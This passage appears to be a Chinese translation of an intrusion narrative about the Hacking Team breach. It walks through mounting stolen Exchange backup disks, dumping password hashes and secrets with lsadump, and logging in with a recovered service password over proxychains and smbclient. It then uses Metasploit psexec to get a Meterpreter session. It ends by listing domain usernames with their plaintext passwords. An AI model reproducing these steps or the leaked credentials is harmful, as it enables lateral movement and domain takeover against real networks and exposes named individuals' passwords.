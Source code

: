 然后就可以发现若干个虚拟机的安全备份了，邮件服务器看起来很有吸引力。尽管他太大了，还是可以远程挂载上来，搜索我们想要的东西：

```
$ losetup /dev/loop0 Exchange.hackingteam.com-flat.vmdk
$ fdisk -l /dev/loop0
/dev/loop0p1            2048  1258287103   629142528    7  HPFS/NTFS/exFAT

entonces el offset es 2048 * 512 = 1048576
$ losetup -o 1048576 /dev/loop1 /dev/loop0
$ mount -o ro /dev/loop1 /mnt/exchange/

```

现在，在`/mnt/exchange/WindowsImageBackup/EXCHANGE/Backup 2014-10-14 172311`我们可以发现虚拟机的硬盘，然后 就可以挂载上去了：

```
vdfuse -r -t VHD -f f0f78089-d28a-11e2-a92c-005056996a44.vhd /mnt/vhd-disk/
mount -o loop /mnt/vhd-disk/Partition1 /mnt/part1

```

最后，我们就可以在`/mnt/part1`看到所有老的邮件交换服务器上的东西了。

0x08 从安全备份到域管理员
=====

.其实我最感兴趣的还是想在安全备份文件里面找到一些常用的密码或者hash以便于进入物理机。我使用pwdump, cachedump 和lsadump去寻找可能的密码，最后lsdadump发现了一个bes管理服务器的账户的密码:

```
_SC_BlackBerry MDS Connection Service
0000   16 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   62 00 65 00 73 00 33 00 32 00 36 00 37 00 38 00    b.e.s.3.2.6.7.8.
0020   21 00 21 00 21 00 00 00 00 00 00 00 00 00 00 00    !.!.!...........

```

我通过proxychains加上嵌入式机器上的socks代理，和smb客户端去尝试这个密码：

```
proxychains smbclient '//192.168.100.51/c$' -U 'hackingteam.local/besadmin%bes32678!!!'

```

成功了！密码仍然有效，而且是本地管理员。我用代理和`metasploit`的`psexec__psh`来获取一个`meterpreter session`。我在机器上抓取到了他的其他密码，包括域管理员的密码。

```
HACKINGTEAM  BESAdmin       bes32678!!!
HACKINGTEAM  Administrator  uu8dd8ndd12!
HACKINGTEAM  c.pozzi        P4ssword      <---- look! the sysadmin!
HACKINGTEAM  m.romeo        ioLK/(90
HACKINGTEAM  l.guerra       4luc@=.=
HACKINGTEAM  d.martinez     W4tudul3sp
HACKINGTEAM  g.russo        GCBr0s0705!
HACKINGTEAM  a.scarafile    Cd4432996111
HACKINGTEAM  r.viscardi     Ht2015!
HACKINGTEAM  a.mino         A!e$$andra
HACKINGTEAM  m.bettini      Ettore&Bella0314
HACKINGTEAM  m.luppi        Blackou7
HACKINGTEAM  s.gallucci     1S9i8m4o!
HACKINGTEAM  d.milan        set!dob66
HACKINGTEAM  w.furlan       Blu3.B3rry!
HACKINGTEAM  d.romualdi     Rd13136f@#
HACKINGTEAM  l.invernizzi   L0r3nz0123!
HACKINGTEAM  e.ciceri       2O2571&2E
HACKINGTEAM  e.rabe         erab@4HT!

```
